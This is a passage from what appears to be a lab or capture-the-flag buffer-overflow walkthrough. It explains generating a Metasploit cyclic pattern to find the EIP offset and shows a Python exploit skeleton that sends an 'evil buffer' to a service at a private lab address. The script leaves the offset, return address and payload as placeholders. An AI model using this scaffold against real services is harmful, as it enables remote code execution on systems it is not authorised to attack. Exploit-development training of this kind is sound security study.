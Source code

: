 As you can see, the script automatically generated a Metasploit pattern by executing `msf-pattern_create -l 2800`.

We can use this long string of unique patterns to identify the EIP offset we need.

I’ll assign it to the `payload` variable that resides in another Python script I wrote, **exploit.py**:

```python
import socket, time

ip = "192.168.56.110"
port = 9999

offset = 0
overflow = "A" * offset
retn = ""
padding = "<long msf-pattern goes here, excluded for brevity>"
payload = ("")
postfix = ""

"""
# Bad Chars:
# \x00
bad_chars = [
    b"\x00"
]
if len(bad_chars) <= 1:
    print(f"!mona findmsp -distance {len(payload)}")
else:
    for bad_char in bad_chars:
        payload = payload.replace(bad_char, b"")
"""

print(f"Offset: {offset}\nPayload: {len(payload)} chars\n")

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  s.send(bytes("NAME", "latin-1"))
  s.recv(1024)
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

![](https://user-images.githubusercontent.com/85040841/154784158-41f43768-f511-417b-bef9-c0697588d925.gif)
